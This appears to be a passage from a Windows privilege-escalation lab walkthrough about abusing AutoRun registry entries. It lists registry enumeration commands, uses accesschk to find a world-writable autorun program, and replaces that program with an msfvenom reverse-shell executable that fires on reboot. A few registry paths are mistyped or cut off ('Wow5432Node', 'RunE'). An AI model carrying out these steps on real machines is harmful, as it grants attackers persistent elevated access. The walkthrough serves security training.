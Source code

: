 ```bash
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\RunServices
reg query HKLM\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\RunServicesOnce
reg query HKCU\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\RunServicesOnce
reg query HKLM\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\RunServices
reg query HKCU\Software\Wow5432Node\Microsoft\Windows\CurrentVersion\RunServices

reg query HKLM\Software\Microsoft\Windows\RunOnceEx
reg query HKLM\Software\Wow6432Node\Microsoft\Windows\RunOnceEx
reg query HKCU\Software\Microsoft\Windows\RunOnceEx
reg query HKCU\Software\Wow6432Node\Microsoft\Windows\RunOnceEx

#PowerShell
Get-ItemProperty -Path 'Registry::HKLM\Software\Microsoft\Windows\CurrentVersion\Run'
Get-ItemProperty -Path 'Registry::HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce'
Get-ItemProperty -Path 'Registry::HKLM\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Run'
Get-ItemProperty -Path 'Registry::HKLM\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\RunOnce'
Get-ItemProperty -Path 'Registry::HKCU\Software\Microsoft\Windows\CurrentVersion\Run'
Get-ItemProperty -Path 'Registry::HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce'
Get-ItemProperty -Path 'Registry::HKCU\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Run'
Get-ItemProperty -Path 'Registry::HKCU\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\RunOnce'
Get-ItemProperty -Path 'Registry::HKLM\Software\Microsoft\Windows NT\CurrentVersion\Terminal Server\Install\Software\Microsoft\Windows\CurrentVersion\Run'
Get-ItemProperty -Path 'Registry::HKLM\Software\Microsoft\Windows NT\CurrentVersion\Terminal Server\Install\Software\Microsoft\Windows\CurrentVersion\RunOnce'
Get-ItemProperty -Path 'Registry::HKLM\Software\Microsoft\Windows NT\CurrentVersion\Terminal Server\Install\Software\Microsoft\Windows\CurrentVersion\RunE'

Get-ItemProperty -Path 'Registry::HKLM\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce'
Get-ItemProperty -Path 'Registry::HKCU\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce'
Get-ItemProperty -Path 'Registry::HKLM\Software\Microsoft\Windows\CurrentVersion\RunServices'
Get-ItemProperty -Path 'Registry::HKCU\Software\Microsoft\Windows\CurrentVersion\RunServices'
Get-ItemProperty -Path 'Registry::HKLM\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\RunServicesOnce'
Get-ItemProperty -Path 'Registry::HKCU\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\RunServicesOnce'
Get-ItemProperty -Path 'Registry::HKLM\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\RunServices'
Get-ItemProperty -Path 'Registry::HKCU\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\RunServices'

Get-ItemProperty -Path 'Registry::HKLM\Software\Microsoft\Windows\RunOnceEx'
Get-ItemProperty -Path 'Registry::HKLM\Software\Wow6432Node\Microsoft\Windows\RunOnceEx'
Get-ItemProperty -Path 'Registry::HKCU\Software\Microsoft\Windows\RunOnceEx'
Get-ItemProperty -Path 'Registry::HKCU\Software\Wow6432Node\Microsoft\Windows\RunOnceEx'
```

Using accesschk.exe, note if one of the AutoRun executables is writable by everyone:

```
C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```

Generate a reverse.exe executable with msfvenom and overwrite the AutoRun executable with it:

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
```

Start a listener on Kali and then restart the Windows machine
